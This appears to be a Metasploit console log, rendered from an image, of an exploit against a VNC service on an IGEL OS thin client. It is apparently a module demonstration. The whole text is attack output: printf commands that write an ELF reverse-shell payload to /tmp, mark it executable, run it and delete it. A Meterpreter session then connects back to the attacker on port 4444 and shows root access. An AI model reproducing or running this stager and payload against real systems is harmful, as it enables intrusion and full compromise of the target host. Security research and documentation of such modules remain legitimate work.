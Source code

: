 ```
[*] 192.168.37.133:5900 - Generated command stager: ["printf '\\177\\105\\114\\106\\1\\1\\1\\0\\0\\0\\0\\0\\0\\0\\0\\0\\2\\0\\3\\0\\1\\0\\0\\0\\124\\200\\4\\10\\64\\0\\0\\0\\0\\0\\0\\0\\0\\0\\0\\0\\64\\0\\40\\0\\1\\0\\0\\0\\0\\0\\0\\0\\1\\0\\0\\0'>>/tmp/SVRVj", "printf '\\0\\0\\0\\0\\0\\200\\4\\10\\0\\200\\4\\10\\355\\0\\0\\0\\206\\1\\0\\0\\7\\0\\0\\0\\0\\20\\0\\0\\152\\2\\130\\315\\200\\205\\300\\164\\6\\61\\300\\260\\1\\315\\200\\152\\2'>>/tmp/SVRVj", "printf '\\130\\315\\200\\205\\300\\164\\6\\61\\300\\260\\1\\315\\200\\152\\12\\136\\61\\333\\367\\343\\123\\103\\123\\152\\2\\260\\146\\211\\341\\315\\200\\227\\133\\150'>>/tmp/SVRVj", "printf '\\300\\250\\45\\1\\150\\2\\0\\21\\134\\211\\341\\152\\146\\130\\120\\121\\127\\211\\341\\103\\315\\200\\205\\300\\171\\31\\116\\164\\75\\150\\242\\0\\0\\0\\130\\152'>>/tmp/SVRVj", "printf '\\0\\152\\5\\211\\343\\61\\311\\315\\200\\205\\300\\171\\275\\353\\47\\262\\7\\271\\0\\20\\0\\0\\211\\343\\301\\353\\14\\301\\343\\14\\260\\175\\315\\200\\205\\300'>>/tmp/SVRVj", "printf '\\170\\20\\133\\211\\341\\231\\262\\152\\260\\3\\315\\200\\205\\300\\170\\2\\377\\341\\270\\1\\0\\0\\0\\273\\1\\0\\0\\0\\315\\200'>>/tmp/SVRVj", "chmod +x /tmp/SVRVj", "/tmp/SVRVj", "rm -f /tmp/SVRVj"]
[*] 192.168.37.133:5900 - executing: printf '\177\105\114\106\1\1\1\0\0\0\0\0\0\0\0\0\2\0\3\0\1\0\0\0\124\200\4\10\64\0\0\0\0\0\0\0\0\0\0\0\64\0\40\0\1\0\0\0\0\0\0\0\1\0\0\0'>>/tmp/SVRVj
[*] 192.168.37.133:5900 - Command Stager progress -  16.45% done (149/906 bytes)
[*] 192.168.37.133:5900 - executing: printf '\0\0\0\0\0\200\4\10\0\200\4\10\355\0\0\0\206\1\0\0\7\0\0\0\0\20\0\0\152\2\130\315\200\205\300\164\6\61\300\260\1\315\200\152\2'>>/tmp/SVRVj
[*] 192.168.37.133:5900 - Command Stager progress -  32.67% done (296/906 bytes)
[*] 192.168.37.133:5900 - executing: printf '\130\315\200\205\300\164\6\61\300\260\1\315\200\152\12\136\61\333\367\343\123\103\123\152\2\260\146\211\341\315\200\227\133\150'>>/tmp/SVRVj
[*] 192.168.37.133:5900 - Command Stager progress -  49.01% done (444/906 bytes)
[*] 192.168.37.133:5900 - executing: printf '\300\250\45\1\150\2\0\21\134\211\341\152\146\130\120\121\127\211\341\103\315\200\205\300\171\31\116\164\75\150\242\0\0\0\130\152'>>/tmp/SVRVj
[*] 192.168.37.133:5900 - Command Stager progress -  65.45% done (593/906 bytes)
[*] 192.168.37.133:5900 - executing: printf '\0\152\5\211\343\61\311\315\200\205\300\171\275\353\47\262\7\271\0\20\0\0\211\343\301\353\14\301\343\14\260\175\315\200\205\300'>>/tmp/SVRVj
[*] 192.168.37.133:5900 - Command Stager progress -  81.79% done (741/906 bytes)
[*] 192.168.37.133:5900 - executing: printf '\170\20\133\211\341\231\262\152\260\3\315\200\205\300\170\2\377\341\270\1\0\0\0\273\1\0\0\0\315\200'>>/tmp/SVRVj
[*] 192.168.37.133:5900 - Command Stager progress -  95.03% done (861/906 bytes)
[*] 192.168.37.133:5900 - executing: chmod +x /tmp/SVRVj
[*] 192.168.37.133:5900 - Command Stager progress -  97.13% done (880/906 bytes)
[*] 192.168.37.133:5900 - executing: /tmp/SVRVj
[*] Transmitting intermediate stager...(106 bytes)
[*] Sending stage (980808 bytes) to 192.168.37.133
[*] Meterpreter session 2 opened (192.168.37.1:4444 -> 192.168.37.133:50502) at 2021-04-30 15:34:22 -0500
[*] 192.168.37.133:5900 - Command Stager progress -  98.23% done (890/906 bytes)
[*] 192.168.37.133:5900 - executing: rm -f /tmp/SVRVj
[*] 192.168.37.133:5900 - Command Stager progress - 100.00% done (906/906 bytes)

meterpreter > getuid
Server username: root @ ITC000C29EB2C06 (uid=0, gid=0, euid=0, egid=0)
meterpreter > sysinfo
Computer     : ITC000C29EB2C06.LOCALDOMAIN
OS           : IGEL V11 (Linux 5.4.48)
Architecture : x64
BuildTuple   : i486-linux-musl
Meterpreter  : x86/linux
meterpreter >
```
